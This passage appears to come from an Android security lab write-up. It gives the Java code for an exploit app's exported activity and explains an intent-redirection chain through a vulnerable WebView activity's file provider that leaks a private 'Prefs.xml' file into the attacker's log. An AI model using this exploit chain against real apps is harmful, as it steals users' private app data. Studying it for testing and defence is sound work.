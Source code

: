 **`Activity2.java`**

```java
public class Activity2 extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_2);

        try {
            // Get the InputStream from the content URI provided by the Intent
            InputStream inputStream = getContentResolver().openInputStream(getIntent().getData());

            // Convert InputStream to String and log it
            BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = reader.readLine()) != null) {
                stringBuilder.append(line).append("\n");
            }
            reader.close();

            // Log the content of the file
            Log.d("FileContent", stringBuilder.toString());

        } catch (FileNotFoundException e) {
            Log.e("FileContent", "File not found: " + e.getMessage());
        } catch (IOException e) {
            Log.e("FileContent", "Error reading file: " + e.getMessage());
        }
    }
    }
```

Let’s break down our code:

- The `MainActivity` of my exploit app will start, and then it will directly start the vulnerable activity `WebView2Activity` as an Intent along with the `extra_intent` parameter.
- The `FLAG_GRANT_READ_URI_PERMISSION` flag in an `Intent` allows a receiving application to temporarily gain read access to the content URI being shared with it.
- Next, the `WebView2Activity` will start my `Activity2` , *don’t forget to make it exported*, and also will access the `file_provider` and get the `Prefs.xml` file and save it in the intent data.
- Finally, my `Activity2` will get the intent data, parse it and read it line by line, then log the output of the file.
